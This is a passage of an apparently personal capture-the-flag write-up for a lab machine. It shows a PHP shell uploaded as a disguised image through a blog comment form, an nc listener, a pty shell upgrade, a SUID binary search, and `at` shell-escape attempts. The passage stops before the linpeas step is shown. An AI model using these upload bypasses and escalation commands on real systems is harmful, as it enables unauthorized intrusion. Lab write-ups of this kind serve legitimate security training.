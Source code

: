 And try to attach this `boat.jpg` to a comment and post it.
<<<<<<< HEAD
=======

The comment has been made, now I'll listen with `nc` on port `443`:

```
nc -lvnp 443
```

And navigate to this image with a URL it is hosted on. It doesn't seem to work. The listener doesn't do anything. Let's change the extension of the image to `boat.jpg.php` and see if the comment image upload engine will recognize it.

The upload worked, posting comment.

Trying to navigate to this `php` file from browser.

And we have a shell. Get the local flag:

```
cd /home/james
cat local.txt
```

Time for Privilege Escalation now to get the root flag. Let's try the former privilege escalation exploit we found and saved as `exploit.php`. _<sup>Assisted by [write-up](https://cyberarri.com/2024/03/17/blogger-pg-play-writeup/):</sup>_ But first, let's upgrade the shell. 

Let's check if python3 is installed on the machine:

```
python3 -V
```

It appears to be here. Now let's upgrade our shell:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Let's see if there are any SUID binaries for us to exploit:

```
find / -perm /4000 2>/dev/null
```

There is `at`, `pkexec` and `mount`. Let's try each:

```
echo "/bin/sh <$(tty) >$(tty) 2>$(tty)" | at now; tail -f /dev/null
```

Apparently this user can't use `at` for some reason.

```
echo "/bin/sh <$(tty) >$(tty) 2>$(tty)" | sudo at now; tail -f /dev/null
```

And doesn't have sudo permissions, which means `mount` won't work and neither will pkexec.

Now let's use `linpeas` script to find out if this machine has any vulnerabilities to escalate privileges. First let's type the following on the host computer:
